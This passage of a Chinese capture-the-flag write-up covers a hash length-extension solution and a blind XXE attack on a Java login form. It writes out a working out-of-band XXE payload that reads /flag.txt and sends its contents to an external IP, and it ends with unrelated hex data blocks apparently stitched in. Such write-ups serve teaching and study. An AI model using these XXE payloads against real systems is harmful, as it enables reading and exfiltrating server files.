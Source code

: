 即可根据hash函数的特性计算出下文

```
xxxxxxxxxxsus_2020%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90sus_2020
```

的hash为

```
5db9b98600777e422f3f7d08e705cb9fbab8d416fcf29f4756b6e41994f1e331
```

提交给服务器，拿到flag

![image-20201020133031305](https://timg.reito.fun/archive/typora-schwarzer/image-20201020133031305.png)

```
SUSCTF{d2303097072bc6be9607722cb10ef191}
```

## [web]baby_java1

开屏是登录界面，题目提示了解一下java xxe，那就去了解一下呗。（写wp的时候发现做这题用到的云服务器实例给我自动释放了，~~***~~。）

![image-20201020133221322](https://timg.reito.fun/archive/typora-schwarzer/image-20201020133221322.png)

了解了一番，总的来说，就是通过利用登录提交的信息是xml这一特点

![image-20201020133554492](https://timg.reito.fun/archive/typora-schwarzer/image-20201020133554492.png)

可以通过构造一个xml，包含一些恶意的信息使得解析的时候获取服务器的一些信息。做这题你需要有一个公网IP，不过我为了图省事用了我自己的阿里云OSS和一个按量付费的ECS实例。

首先尝试看看能否直接通过有回显这一特性提取文件

![image-20201020133837998](https://timg.reito.fun/archive/typora-schwarzer/image-20201020133837998.png)

结果被检测了，又去网上搜了一番，把这题当作无回显的做了，具体就是在OSS（或其他文件服务器）上放上一个dtd脚本，使得xml解析器访问某网址并带上参数。

其中要在另一远程地址放上（IP替换成自己的）

```xml-dtd
<!ENTITY % all
"<!ENTITY &#x25; ssss SYSTEM 'http://116.62.4.84:6757/%ffff;'>"
>
%all;
```

在ECS上监听端口

![image-20201020134917181](https://timg.reito.fun/archive/typora-schwarzer/image-20201020134917181.png)

然后发送给服务器

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE user[
<!ENTITY % ffff SYSTEM "file:///flag.txt">
<!ENTITY % ddd SYSTEM "http://schwarzer-blog.oss-cn-hangzhou.aliyuncs.com/baby.dtd">
%ddd;
%ssss;
]>
<user><number>admin</number><name>hahaha</name></user>
```


[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000